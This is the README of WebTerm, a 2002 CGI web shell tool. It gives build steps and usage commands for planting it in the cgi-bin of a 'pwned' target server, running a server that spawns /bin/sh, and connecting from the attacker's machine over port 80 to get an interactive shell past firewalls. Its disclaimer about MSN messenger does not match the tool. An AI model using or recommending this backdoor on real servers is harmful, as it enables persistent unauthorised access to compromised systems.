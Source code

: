 

 WebTerm  
 =========================================================================
 Connection orientied cgi web ppty terminal, worte for security researchre and pentester 
 You may even use vim thru webterm cgi 



 Description
 ==========================================================================

 Webterm is a terminal which makes to be able to communicate with unix shell via 
 HTTP. it could be used over firewall that only allows HTTP (port 80).
 package consists with there modules. wtcgi.cgi, wterm, wtserver.
 
 * "wterm" is a client interface like CRT. 
 * "wtcgi.cgi" is traditional cgi program comunicates with a server using unix domain socket. 
 * "wtserver" is a domain socket server which manages pseudo terminal of sub shell process "/bin/sh"

 Package firstly released at http://underground.or.kr/project/webterm/ , 2002
 no more maintenanced, only for academic purpose ... 


 Install 
 ==========================================================================

 ```
 $ git clone git@github.com:truefinder/webterm.git
 $ cd webterm 
 $ make 
 ```
 
 Please make sure your pwned cgi-bin directory which is excutable 
 because wtserver creates unix domain socket for comunication to wtcgi.cgi
 
 Usage 
 ==========================================================================
 
 Unpack all pacakge in cgi forlder on your target server after pwned
 Run wtserver with privilege  equal with target web server 
 
 ```
 (pwned server)$ wtserver &
 ```
 
 And, please connect to your server thru the wterm
 
 ```
 (your linux)$ wterm -h <target_ip> -p 80 -l /cgi-bin/wtcgi.cgi
 ```

 Changes
 ==========================================================================

 Confer 'ChangeLog' in this package


 Copying
 ==========================================================================

 This program is free software; you can  redistribute it and/or modify
 it under the terms  of the GNU General Public  License as published by
 the  Free Software Foundation; either version  2,  or (at your option)
 any later version.

 This program is distributed  in the hope that  it will be  useful, but
 WITHOUT    ANY  WARRANTY;  without   even   the  implied  warranty  of
 MERCHANTABILITY  or  FITNESS FOR  A PARTICULAR   PURPOSE.  See the GNU
 General Public License for more details.

 You should  have received a  copy of  the GNU  General Public  License
 along with   this  program; if   not,  write  to   the Free   Software
 Foundation, Inc., 675 Mass Ave, Cambridge, MA 02139, USA.


 WARNNING !  It's for only educational purpose and warning to ppls
 about senstive security of MSN messenger.
 i have no responsibility for usnig this program for another purpose.

 WTERM - Web Terminal
 (C) COPYRIGHT Seunghyun Seo
 All right reserverd ( Aug 27, 2002 )


 Contact
 ======================================================================

 Seunghyun Seo



